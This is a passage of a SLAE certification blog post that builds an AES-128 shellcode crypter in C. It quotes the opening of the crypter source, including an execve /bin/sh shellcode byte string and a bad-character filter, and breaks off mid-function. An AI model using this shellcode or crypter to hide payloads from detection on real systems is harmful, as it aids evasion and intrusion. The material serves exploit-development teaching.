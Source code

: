 # Assignment 7: Crypter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Create a custom crypter like the one shown in the "crypters" video
- Free to use any existing encryption schema
- Can use any programming language

## Solution

To complete this task, we are going to create an ![AES-128](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) crypter implementation in C. The crypter will take shellcode and a key as arguments; apply the Rijndael-128 cipher in CBC mode with a randomly generated initialization vector (IV); and generate an ELF executable with the decryption routine along with the key and the encrypted shellcode. The decryptor will also be implemented in C. 

The following is the crypter implementation:

### a7-crypter.c
```c
/*
 *	SLAE Assignment 7: Crypter
 *
 *	gcc a7-crypter.c -o a7-crypter -std=c99 -lmcrypt
 *
 *
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <strings.h>
#include <mcrypt.h>
#include <fcntl.h>
#include <sys/types.h>
#include <unistd.h>


/* execve shellcode */
unsigned char code[] = \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8d\x1c\x24\x50\x8d\x14\x24\x53\x8d\x0c\x24\xb0\x0b\xcd\x80";


int hasbadchar(unsigned char* str)
{
	unsigned char* badchars[] = { "00", "0a", "0d" };

	for (int i = 0; i < sizeof(badchars) / sizeof(badchars[0]); i++) {
		if (strstr(str, badchars[i])) return 1;
	}

	return 0;
}


char* strsub(char* str, char* orig, char* rep)
```